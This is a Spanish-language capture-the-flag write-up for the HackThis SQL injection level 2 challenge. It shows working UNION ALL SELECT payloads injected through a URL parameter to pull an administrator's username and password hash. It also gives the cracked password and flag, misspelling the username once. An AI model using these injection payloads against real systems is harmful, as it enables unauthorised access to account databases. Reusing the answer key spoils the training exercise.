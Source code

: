 #HackThis - SQLi -  Level 2

URL:      https://www.hackthis.co.uk/levels/sqli/2

##Write Up Iker

Para jugar a este juego es necesario registrarse, así que nos registramos y accedemos a la página para empezar los retos.

##Hint

```html
Gain access to an administrators account
```

## Explicación

En este reto de SQLi, tenemos que acceder al sistema con una cuenta de administrador.

Accedemos a la página y vemos que tenemos dos campos de texto donde tenemos que meter el **usuario** y la **contraseña**.

Además de esto, tenemos un enlace a una página donde nos dejan ver los usuarios del sistema haciendo consultas por la primera inicial del nombre.

Probamos diferentes letras:

```html
Asgard
Arruin
Agbrand
Alimism
Aytarra
Amerr
...
```

Probamos diferentes combinaciones y obtenemos los nombres de los usuarios, pero ni rastro de si son usuarios **rasos** o **administradores**.

Tampoco nos muestran las contraseñas como el lógico...todavía :sunglasses:

Nos fijamos en la URL y vemos que se realiza un query con las letras que vamos seleccionando en el menu de abajo

```html
https://www.hackthis.co.uk/levels/sqli/2?browse&q=a
```

Como es una prueba de SQL Injection, probamos a poner una comilla simple ** ' ** y ver que pasa.

```html
DEBUG: SELECT username, admin FROM members WHERE username LIKE 'a'%'
```

¡BINGO! Un mensaje en el navegador con el resultado del **DEBUG**

Ahora que ya sabemos como realiza las consultas, tenemos que montar una que nos de quien es el **Administrador** 

Como con una consulta no sería posible, tenemos que utilizar la consulta **UNION** para hacerlo:

```sql
' UNION ALL SELECT username, password FROM members WHERE admin=1--
```

Montamos la consulta anterior en la URL quedando así:

```html
https://www.hackthis.co.uk/levels/sqli/2?browse&q=a' UNION ALL SELECT username, password FROM members WHERE admin=1--
```

Haciendo eso nos sale el nombre de un usuario, que probablemente sea nuestro administrador :smile:

**bellamond**

**¡OK!** Ya tenemos al usuario administrador pero no sabemos cual es su contraseña.

Al igual que en apartado anterior,  montaremos una consulta para que nos devuelva la contraseña asignada al usuario **bellamond**

```sql
' UNION ALL SELECT password, 2 FROM members WHERE username='bellamond'--
```

Utilizamos dos campos (password, 2) ya que tiene dos campos y sino nos daría un error.

```html
https://www.hackthis.co.uk/levels/sqli/2?browse&q=a' UNION ALL SELECT password, 2 FROM members WHERE username='bellamond'--
```

¡OLE! Nos sale un código muy largo que probablemente sea el **HASH** de la contraseña

**1b774bc166f3f8918e900fcef8752817bae76a37**

Buscamos el **HASH** en **Google** y nos aparece que es el siguiente:

```html
1b774bc166f3f8918e900fcef8752817bae76a37  :  sup3r
```

Ya tenemos los dos datos para pasar la prueba. Lo probamos y efectivamente la pasamos :smile: :beers:

```html
Usuario  : bellamont
Password : sup3r
```

**FLAG** = {bellamond/sup3r}
